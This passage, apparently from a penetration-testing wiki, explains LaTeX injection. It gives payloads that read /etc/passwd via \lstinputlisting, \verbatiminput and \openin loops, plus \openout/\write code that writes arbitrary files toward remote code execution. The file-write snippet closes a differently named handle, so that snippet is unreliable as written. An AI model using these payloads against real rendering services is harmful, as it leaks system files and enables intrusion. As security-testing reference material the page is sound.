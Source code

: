 ```latex
\usepackage{listings}
...
\lstinputlisting{/etc/passwd}
```

Similarly, the `verbatim` package also reads text literally:

```latex
\usepackage{verbatim}
...
\verbatiminput{/etc/passwd}
```

A more manual way (without packages) is opening a file and reading its lines:

```latex
\newread\file       % define \file variable
\openin\file=/etc/passwd  % open file into variable
\loop\unless\ifeof\file   % keep reading until EOF
    \read\file to\line    % read to \line variable
    \line       % print \line variable
\repeat
\closein\file
```

{% hint style="warning" %}
This method also executes content as LaTeX, meaning special characters like `_` underscores may generate errors. We can patch some of these characters we find using [`\catcode`](https://en.wikibooks.org/wiki/TeX/catcode) which changes the category of a character, into meaning a literal character:

```latex
\catcode`\_=12  % Print '_' characters literally in the future
\newread\file
...
```
{% endhint %}

### File write

Without any special flags, LaTeX can **write any file** to the system, which can lead to all kinds of problems. This is arguably the most dangerous default feature of LaTeX and why user input should never be trusted there. See [#writing-files](../linux/linux-privilege-escalation/#writing-files "mention") for some ideas on privilege escalation techniques.

Similarly to [#file-read](latex.md#file-read "mention"), you can open and write to a file:

```latex
\newwrite\file
\openout\file=file.txt      % open file for writing into variable
\write\file{Hello, world!}  % write the content
\closeout\outfile
A     % filler because an empty document doesn't execute
```

Depending on the backend, you may be able to write or overwrite critical files like source code or templates to achieve full Remote Code Execution.&#x20;
